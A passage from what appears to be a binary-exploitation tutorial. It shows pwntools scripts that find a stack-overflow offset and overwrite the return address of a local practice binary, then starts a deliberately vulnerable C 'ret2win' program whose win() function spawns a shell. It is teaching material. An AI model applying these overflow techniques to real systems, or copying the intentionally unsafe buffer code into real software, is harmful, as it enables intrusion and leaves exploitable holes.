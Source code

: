 ```python
            
            # Check if we hit the return address
            core = Coredump('./core')
            if core.read(core.rsp, 4) == b'BBBB':
                print(f"Offset found: {i}")
                return i
                
        except:
            continue
    
    print("Offset not found in range")
    return None

manual_offset_finding()
```

### Step 3: Control Flow Hijacking

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

def control_eip():
    offset = 72  # Discovered offset
    
    # Try to control return address
    p = process('./vuln1')
    
    payload = b'A' * offset
    payload += p64(0x4141414142424242)  # Controlled return address
    
    p.sendline(payload)
    p.wait()
    
    # Verify we control RIP
    core = Coredump('./core')
    rip = core.read(core.rsp, 8)
    print(f"RIP controlled: {hex(u64(rip))}")

control_eip()
```

## Classic Exploitation Techniques

### Ret2Win (Return to Win Function)

```c
// ret2win.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void win() {
    printf("Congratulations! You win!\n");
    system("/bin/sh");
}

void vulnerable() {
    char buffer[64];
    printf("Enter input: ");
```